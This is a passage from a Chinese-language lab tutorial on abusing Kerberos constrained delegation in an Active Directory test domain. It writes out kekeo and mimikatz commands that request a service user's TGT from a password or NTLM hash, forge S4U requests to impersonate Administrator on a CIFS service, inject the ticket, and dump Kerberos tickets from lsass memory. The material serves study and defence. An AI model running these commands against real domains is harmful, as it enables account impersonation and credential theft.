 + 域内主机：DM08
DM08是域内的另外一台主机，下面我们设置了服务用户qiyou对DM08的cifs服务的委派
![](https://xzfile.aliyuncs.com/media/upload/picture/20200208162356-59615fcc-4a4c-1.png)
概述那里我们讲了在约束委派的情况下，服务用户只能获取某个用户（或主机）的服务的ST，所以只能模拟用户访问特定的服务，是无法获取用户的TGT，如果我们能获取到开启了约束委派的服务用户的明文密码或者NTLM Hash，我们就可以伪造S4U请求，进而伪装成服务用户以任意账户的权限申请访问某服务的ST

已经知道服务用户明文的条件下，我们可以用kekeo请求该用户的TGT
```
tgt::ask /user:qiyou /domain:qiyou.com /password:password /ticket:test.kirbi
```
> 参数：
> /user: 服务用户的用户名
> /password: 服务用户的明文密码
> /domain: 所在域名
> /ticket: 指定票据名称，不过这个参数没有生效，可以忽略
![](https://xzfile.aliyuncs.com/media/upload/picture/20200208132812-cce6165e-4a33-1.png)
得到服务用户TGT：TGT_qiyou@QIYOU.COM_krbtgt~qiyou.com@QIYOU.COM.kirbi

然后我们可以使用这张TGT通过伪造s4u请求以administrator用户身份请求访问dm08 CIFS的ST
```
tgs::s4u /tgt:TGT_qiyou@QIYOU.COM_krbtgt~qiyou.com@QIYOU.COM.kirbi /user:Administrator@qiyou.com /service:cifs/dm08.qiyou.com
```
![](https://xzfile.aliyuncs.com/media/upload/picture/20200208133328-88ef2eb2-4a34-1.png)
S4U2Self获取到的ST1以及S4U2Proxy获取到的dm08 CIFS服务的ST2会保存在当前目录下

然后我们用mimikatz将ST2导入当前会话即可
```
kerberos::ptt TGS_Administrator@qiyou.com@QIYOU.COM_cifs~dm08.qiyou.com@QIYOU.COM.kirbi
```
成功访问到dm08的cifs服务
![](https://xzfile.aliyuncs.com/media/upload/picture/20200208135043-f1a80198-4a36-1.png)
上面是知道服务用户明文的情况下，kekeo同样也支持使用NTLM Hash

在请求服务用户的TGT那步直接把/password改成/NTLM即可

已知我们服务账号qiyou的NTLM hash是b4f27a13d0f78d5ad83750095ef2d8ec
```
tgt::ask /user:qiyou /domain:qiyou.com /NTLM:b4f27a13d0f78d5ad83750095ef2d8ec
tgs::s4u /tgt:TGT_qiyou@QIYOU.COM_krbtgt~qiyou.com@QIYOU.COM.kirbi /user:Administrator@qiyou.com /service:cifs/dm08.qiyou.com
```
![](https://xzfile.aliyuncs.com/media/upload/picture/20200208165346-847a63c6-4a50-1.png)
```
kerberos::ptt TGS_Administrator@qiyou.com@QIYOU.COM_cifs~dm08.qiyou.com@QIYOU.COM.kirbi
```
![](https://xzfile.aliyuncs.com/media/upload/picture/20200208165529-c1e160f2-4a50-1.png)
如果我们不知道服务用户的明文和NTLM Hash，但是我们有了服务用户登陆的主机权限（需要本地管理员权限），我们可以用mimikatz直接从内存中把服务用户的TGT dump出来
```
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit
```
![](https://xzfile.aliyuncs.com/media/upload/picture/20200208171625-ae0701f6-4a53-1.png)
注：sekurlsa::tickets是列出和导出所有会话的Kerberos票据，sekurlsa::tickets和kerberos::list不同，sekurlsa是从内存读取，也就是从lsass进程读取，这也就是为什么sekurlsa::tickets /export需要管理员权限的原因。并且sekurlsa::tickets的导出不受密钥限制，sekurlsa可以访问其他会话（用户）的票证。
